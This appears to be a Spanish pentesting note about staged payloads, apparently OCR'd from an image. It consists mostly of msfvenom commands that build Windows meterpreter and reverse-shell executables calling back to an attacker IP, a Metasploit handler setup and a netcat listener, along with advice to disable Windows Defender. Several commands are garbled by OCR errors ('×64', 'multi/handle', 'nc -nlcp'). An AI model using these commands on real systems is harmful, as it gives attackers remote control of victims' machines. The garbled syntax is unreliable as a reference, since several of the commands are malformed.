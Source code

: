 ------------
Tags: #payload #payloadstaged #metasploit #windows #netcat #nc #rlwrap

----------
**Payload Staged**: Es un tipo de payload que se **divide en dos** **o más etapas**. La primera etapa es una pequeña parte del código que se envía al objetivo, cuyo propósito es establecer una conexión segura entre el atacante y la máquina objetivo. Una vez que se establece la conexión, el atacante envía la segunda etapa del payload, que es la carga útil real del ataque. Este enfoque permite a los atacantes sortear medidas de seguridad adicionales, ya que la carga útil real no se envía hasta que se establece una conexión segura.

-----------
## Con metasploit

Creamos un binario malicioso con msfvenom para crear un ejecutable y después utilizamos metasploit.
1. Creamos el binario y lo descargamos en la máquina víctima:
```bash
msfvenom -p windows/×64/meterpreter/tcp --platform windows -a ×64 LHOST=192.168.111.45 LPORT=4646 -f exe -o reverse. exe
```
(Hay que desactivar el windows defender)
2. Utilizamos metasploit:
```bash
msfdb run
```

```metasploit
use exploit/multi/handle
set payload windows/x64/meterpreter/reverse_tcp
show options

run
```
---------
## Con Netcat

## Con Netcat

Descargamos en la máquina víctima el ejecutable creado con el siguiente comando:
```bash
msfvenom -p windows/×64/shell_reverse_tcp --platform Windows -a ×64 LHOST=192.168.111.45 LPORT=4646 -f exe -o shell.exe
```

En la máquina atacante escuchamos por un puerto con netcat:
```bash
rlwrap nc -nlcp 4646
```

**rlwrap** es una herramienta que simula una consola interactiva.

---------
